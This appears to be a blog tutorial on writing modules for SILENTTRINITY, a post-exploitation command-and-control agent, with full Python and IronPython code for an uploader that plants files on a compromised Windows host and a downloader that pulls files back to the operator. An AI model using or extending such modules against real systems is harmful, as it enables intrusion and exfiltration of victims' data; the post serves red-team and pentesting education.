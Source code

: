 ```yaml
---
layout: post
title:  "Writing a basic Module for SILENTTRINITY"
date:   2018-10-21 18:47:00 -0400
categories:
  - Code
tags:
  - Python
  - SILENTTRINITY
  - IronPython
  - Pentesting
---
```


***SILENTTRINITY*** is a post-exploitation agent powered by Python, IronPython and C#/.NET written by [byt3bl33d3r](https://twitter.com/byt3bl33d3r), also author of [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), the swiss army knife for pentesting networks. SILENTTRINITY was presented at DerbyCon 8.0 and everybody was really impressed (yes, I was also there). I really like C# (.NET) and Python, those are my favorites programming languages and [IronPython](https://github.com/IronLanguages/ironpython2) looks really promising. So why not contribute to this project? ![SILENTTRINITY][SILENTTRINITY-screenshot]

### How does this work?

The next image explains by itself how is the dynamic here. ![SILENTTRINITY-DIAGRAM][SILENTTRINITY-diagram]

The idea is really simple: we run our initial stager, the target ask for the payload and the encrypted communication continues back and forward waiting for a job, once a job is received the target executes the job (written in IronPython) and the output is sent to the server. I highly recommend to watch Marcello's talk to have a better idea of what we're talking about here and learn the beauty of SILENTTRINITY:

[![Track 2 05 IronPython omfg Marcello Salvati](https://img.youtube.com/vi/NaFiAx737qg/0.jpg)](https://www.youtube.com/watch?v=NaFiAx737qg)

### Let's code, baby!

This is the fun part. In order to have your Developer Environment up and running follow this Wiki: [Setting up your development environment](https://github.com/byt3bl33d3r/SILENTTRINITY/wiki/Setting-up-your-development-environment). I'm using [PyCharm Community Edition](https://www.jetbrains.com/pycharm/) and I'm running [Python 3.7.0](https://www.python.org/downloads/release/python-370/) on macOS. After creating a *virtualenv* and importing the `Server` folder into the IDE, we're ready to write some code, but first I'm sharing my PyCharm setting to show you how to properly debug Console apps:

![PyCharm Debug][SILENTTRINITY-pycharm-debug]

Cool. I'm going to use a simple module written by me called [Uploader](https://github.com/byt3bl33d3r/SILENTTRINITY/pull/12).

```python
class STModule:
    def __init__(self):
        self.name = 'uploader'
        self.description = 'Upload a file to a destination path.'
        self.author = '@davidtavarez'
        self.options = {
            'File': {
                'Description': 'The absolute path of the file.',
                'Required': True,
                'Value': None
            },
            'Destination': {
                'Description': 'The destination path of the file.',
                'Required': False,
                'Value': "C:\\\\WINDOWS\\\\Temp\\\\"
            }
        }

    def payload(self):
        if self.options['File']['Value'] is None:
            return None

        import os
        import base64

        if not os.path.exists(self.options['File']['Value']):
            from core.utils import print_bad
            print_bad("Selected file do not exists.")
            return None

        with open(self.options['File']['Value'], "rb") as file:
            encoded_string = base64.b64encode(file.read()).decode("utf-8")

        with open('modules/src/uploader.py', 'r') as module_src:
            src = module_src.read()
            src = src.replace("FILENAME", os.path.basename(self.options['File']['Value']))
            src = src.replace("DESTINATION", self.options['Destination']['Value'])
            src = src.replace("DATA", encoded_string)
            return src.encode()
```

As you can notice, the class of the module must be called `STModule` and must include a `Constructor` and a definition of the method called `payload`. Our constructor must contain at least the next properties:

* ***name***: the name of the module.
* ***description***: a short summary of what your module does.
* ***author***: your handle.
* ***options***: the options accepted in your module.

All options are displayed after we decided to use the module and run the `options` command:

```
ST (modules) ≫ use uploader  
ST (modules)(uploader) ≫ options
+-------------+----------+---------------------+-----------------------------------+
| Option Name | Required | Value               | Description                       |
+-------------+----------+---------------------+-----------------------------------+
| File        | True     | None                | The absolute path of the file.    |
+-------------+----------+---------------------+-----------------------------------+
| Destination | False    | C:\\WINDOWS\\Temp\\ | The destination path of the file. |
+-------------+----------+---------------------+-----------------------------------+
ST (modules)(uploader) ≫
```

To set a value we need to use the `set` command like this:

```
ST (modules)(uploader) ≫ set File /Users/davidtavarez/uploader.txt
ST (modules)(uploader) ≫ options
+-------------+----------+----------------------------------+-----------------------------------+
| Option Name | Required | Value                            | Description                       |
+-------------+----------+----------------------------------+-----------------------------------+
| File        | True     | /Users/davidtavarez/uploader.txt | The absolute path of the file.    |
+-------------+----------+----------------------------------+-----------------------------------+
| Destination | False    | C:\\WINDOWS\\Temp\\              | The destination path of the file. |
+-------------+----------+----------------------------------+-----------------------------------+
ST (modules)(uploader) ≫ 
```

### The payload

The payload that is written in IronPython is sent to the target using the `payload` method and the source code should be placed inside the folder named `src`.

```python
from System import Convert
from System.IO import File


def DecodeBase64File(Data, FileName, FilePath="C:\\WINDOWS\\Temp\\"):
    path = "{}{}".format(FilePath, FileName)
    File.WriteAllBytes(path,Convert.FromBase64String(Data))
    return 'File copied to: {}'.format(path)

print DecodeBase64File("DATA", "FILENAME", FilePath="DESTINATION")
```

The "tricky" part resides here: `print DecodeBase64File("DATA", "FILENAME", FilePath="DESTINATION")`. We're calling `print` to read the results of `DecodeBase64File`, so the output is sent to the server:

```
ST (modules)(uploader) ≫ run all
[+] d53c4737-c23e-4ec6-875a-c59e8ffa7056 returned job result (id: TmbazEXM)
File copied to: C:\WINDOWS\Temp\uploader.txt
```

Going back to the module code, we're replacing *DATA* with the content of the file named *FILENAME* and then, passing the *DESTINATION* folder to the payload.

![It's working!][UPLOADER-screenshot]

That's it! Summarizing, there are just two steps:

1. Create a class called: STModule with a constructor and a method named: `payload`.
2. Create your IronPython payload and pass the values taken from `options`.

### But... there's more...

I really wanted to manage the output using my module, so I placed a [Pull Request](https://github.com/byt3bl33d3r/SILENTTRINITY/pull/15) for this. This is how my base class looks now:

```python
class Module:
    def __init__(self):
        self.name = 'module'
        self.description = ''
        self.author = ''
        self.options = {}

    def process(self, result):
        print(result)
```

I did create a new module called: [Downloader](https://github.com/byt3bl33d3r/SILENTTRINITY/pull/15/commits/f1c73b3341b91fea01988f18af9b60bcde6767ab) just as PoC:


```python
...
    def process(self, result):
        b64_string = result.replace("\n", "").replace("\r", "")
        b64_string += "=" * ((4 - len(b64_string) % 4) % 4)
        b64_string = b64_string.encode()

        ba = bytes(b64_string)

        with open(self.path, "wb") as file:
            file.write(base64.decodebytes(ba))

        print_good("File was downloaded successfully: {}".format(self.path))
```

Now we can have control of the response just overwritting the method: `process`.

[SILENTTRINITY-screenshot]: https://raw.githubusercontent.com/davidtavarez/davidtavarez.github.io/master/_images/posts/SILENTTRINITY_screenshot.png
[SILENTTRINITY-diagram]: https://user-images.githubusercontent.com/5151193/46646842-cd2b0580-cb49-11e8-9218-73226e977d58.png
[SILENTTRINITY-pycharm-debug]: https://raw.githubusercontent.com/davidtavarez/davidtavarez.github.io/4aa7a53f11c9ce9ed9957e60b1abace95afe5dda/_images/posts/pycharm_debug_SILENTTRINITY.png
[UPLOADER-screenshot]: https://user-images.githubusercontent.com/337107/46912579-41e5b180-cf47-11e8-8adf-d4873ee624ac.png